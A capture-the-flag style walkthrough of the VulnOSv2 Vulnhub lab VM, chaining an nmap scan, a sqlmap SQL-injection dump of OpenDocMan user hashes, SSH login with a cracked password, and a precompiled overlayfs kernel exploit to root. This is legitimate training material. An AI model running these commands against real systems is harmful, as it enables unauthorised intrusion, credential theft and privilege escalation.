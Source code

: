 This is another writeup for a VM from Vulnhub, this one is by c4b3rw0lf.

Lets scan it:

>```
>_ nmap -sS -T4 -A 192.168.0.100 -p-
>
>Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-17 08:49 CEST
>Nmap scan report for 192.168.0.100
>Host is up (0.00064s latency).
>Not shown: 65532 closed ports
>PORT     STATE SERVICE VERSION
>22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey:
>|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
>|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
>|_  256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
>80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
>|_http-server-header: Apache/2.4.7 (Ubuntu)
>|_http-title: VulnOSv2
>6667/tcp open  irc     ngircd
>MAC Address: 08:00:27:A1:E2:43 (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 3.X|4.X
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
>OS details: Linux 3.2 - 4.4
>Network Distance: 1 hop
>Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
>>
>TRACEROUTE
>HOP RTT     ADDRESS
>1   0.64 ms 192.168.0.100
>
>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 80.84 seconds
>```

So there is ssh, a webserver and a IRC server.

On the webserver we get a link to /jabc, I spider this site, browse around a
bit, and find something interesting in /jabc/?q=node/8

>```
><p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
><p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
>```

We follow along to /jabcd0cs/

Here we find OpenDocMan 1.2.7, seeing the copyright for this version only goes
to 2013 I go to exploit db to see if there are any exploits.

>```
>https://www.exploit-db.com/exploits/32075/
>```

So there is SqL-injection possible in the add_value parameter, I fire sqlmap and
it and it gets some nice results.

>```
>sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user'
>-p add_value -D jabcd0cs --dump
>```

We get the hash for the webmin user.

>```
>Database: jabcd0cs
>Table: odm_user
>[3 entries]
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| id | phone        | Email              | username     | password                                 | last_name | first_name | department | pw_reset_code |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>| 1  | 5555551212   | webmin@example.com | webmin       | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
>| 2  | 555 5555555  | guest@example.com  | guest        | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
>| 3  | 555-555-0199 | winter@example.com | Peter+Winter | 3d5bfcc2c4c3101c754087120572aaf7         | Winter    | Peter      | 1          | NULL          |
>+----+--------------+--------------------+--------------+------------------------------------------+-----------+------------+------------+---------------+
>```

I paste this hash into the google and get back the plaintext.

>```
>result: webmin1980
>```

We can ssh in as this user.

>```
>ssh webmin@192.168.0.100                                                                                                                                                                                                 ⏎
>webmin@192.168.0.100's password:
>Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)
>
> * Documentation:  https://help.ubuntu.com/
>
>  System information as of Tue May 17 08:49:07 CEST 2016
>
>  System load: 0.0               Memory usage: 4%   Processes:       63
>  Usage of /:  5.7% of 29.91GB   Swap usage:   0%   Users logged in: 0
>
>  Graph this data and manage this system at:
>    https://landscape.canonical.com/
>
>Last login: Wed May  4 10:41:07 2016
>$ id
>uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
>```

I get a shell on the server and do some recon, after not finding anything for a
while I notice:

>```
>webmin@VulnOSv2:~$ uname -a
>Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
>```

I go to kernel-exploits to check if this kernel is vulnerable to anything, and
it is! There is even a precompiled exploit for us.

>```
>https://www.kernel-exploits.com/exploit/39/
>```

I copy it into webmins hope directory and...

>```
>webmin@VulnOSv2:~$ chmod +x ofs_32
>webmin@VulnOSv2:~$ ./ofs_32
>spawning threads
>mount #1
>mount #2
>child threads done
>/etc/ld.so.preload created
>creating shared library
># id
>uid=0(root) gid=0(root) groups=0(root),1001(webmin)
>```

Yay!

>```
># cat /root/flag.txt
>Hello and welcome.
>You successfully compromised the company "JABC" and the server completely !!
>Congratulations !!!
>Hope you enjoyed it.
>
>What do you think of A.I.?
>```

Good challenge, I liked exploring the sites looking for vulns, thanks to Vulnhub
for hosting and thanks to c4b3rw0lf for creating it!

